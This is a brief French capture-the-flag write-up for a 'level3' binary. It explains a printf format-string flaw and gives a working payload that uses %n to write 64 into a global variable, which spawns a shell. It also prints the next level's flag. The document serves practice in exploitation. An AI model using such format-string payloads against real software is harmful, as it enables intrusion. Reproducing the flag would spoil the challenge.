 ## GET Flag

Cet exécutable utilise fgets qui est protégé via une limite de taille le nombre de caractères à lire.

La faille de cet exécutable réside dans le fait que l'utilisateur à la main sur le format de la fonction printf.
L'option: `%n` permet d'écrire le nombre de caractères écrits précédement à l'adresse passée en paramètre.

Il est possible de recupérer l'adresse de `m` avec la commande:

```
$ objdump -t ./level3

% 0804988c g     O .bss	00000004              m
```

Il est ainsi possible d'écrire à l'adresse `0x0804988c` la valeur 64.
Cette variable sera vérifié et un shell sera lancé dans le cas où cette dernière vaudrait 64.

`python -c 'print "\x8c\x98\x04\x08" + "%10x" * 3 + "A" * 30 + "%n" ' > exploit`

`cat exploit - | ./level3`

### Flag

```
level4
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
